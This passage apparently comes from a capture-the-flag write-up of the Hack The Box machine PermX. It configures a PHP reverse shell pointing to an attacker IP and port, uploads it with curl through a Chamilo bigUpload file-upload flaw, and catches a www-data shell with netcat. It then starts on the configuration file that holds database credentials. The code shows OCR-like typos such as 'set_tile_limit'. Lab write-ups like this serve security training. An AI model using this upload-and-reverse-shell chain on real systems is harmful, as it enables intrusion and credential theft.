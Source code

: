 ##### PHP Reverse Shell

Go to [this](https://github.com/pentestmonkey/php-reverse-shell) GitHub repo to get the reverse shell updating this chunk of code:

```php
set_tile_limit (0);
$VERSION = "1.0";
$ip = '10.10.14.47';  // attacker_ip
$port = 1234;         // attacker_port
$chunk_size = 1400;
$write_a = null;
$error_b = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

I upload the reverse shell using `curl` again:

```bash
$ curl -F 'bigUploadFile=@php-reverse-shell.php' 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/inc/bigUpload.php?action=post-unsupported'
The file has successfully been uploaded.
```

Execute it using `curl`:

```bash
$ curl 'http://lms.permx.htb/main/inc/lib/javascript/bigupload/files/php-reverse-shell.php'
```

Using `netcat` I log in as `www-data` user:

```
$ nc -nvlp 1234
Connecttion from 10.129.201.38:60566
Linux permx 5.15.0-113-generic #123-Ubuntu SMP Mon Jun 10 08:16:17 UTC 2024 x86_64 x86_64 GNU/Linux
 18:13:45 up  1:26,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can0t access tty: job control turned off
$ whoami
www-data
```

There is only one user with a home directory:

```
$ ls -l home
total4
drwxr-x--- 4 mtz mtz 4096 Jun  6 05:24 mtz
```

The `www-data` can’t access either the `mtz` directory or `/root`.

The `/var/www/chamilo/app/config` folder contains a file named `configuration.php`, the file is very long but it starts with the DB connection information:
